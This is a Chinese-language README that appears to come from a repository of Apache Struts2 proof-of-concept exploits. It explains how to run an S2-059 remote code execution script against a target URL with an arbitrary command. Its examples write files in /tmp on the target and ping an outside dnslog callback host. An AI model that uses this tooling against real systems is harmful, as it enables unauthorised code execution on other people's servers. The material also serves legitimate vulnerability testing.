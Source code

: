# 此仓库为strus2历史版本的poc集合
## S2-059 漏洞利用脚本
这个 Python 脚本旨在演示 Apache Struts S2-059 漏洞的利用技术。该漏洞允许在受影响的系统上进行远程代码执行。
python环境为pyhon2.7 
### 使用方法
1. 确保已经安装了 `requests` 库 。你可以使用 `pip` 来安装它：
`pip install requests`
2. 使用以下命令运行脚本：

```
python s2-059_exploit.py -u <URL> -c <命令>

- `-u` 或 `--url`：指定存在 Apache Struts 漏洞的目标 URL。
- `-c` 或 `--command`：提供要在目标系统上执行的命令。

示例：

python s2-059_exploit.py -u http://example.com/orders/3/edit -c "/usr/bin/touch /tmp/aa /tmp/bb"
python s2-059_exploit.py -u http://example.com/orders/3/edit -c "ping l9mgao.dnslog.cn"
```

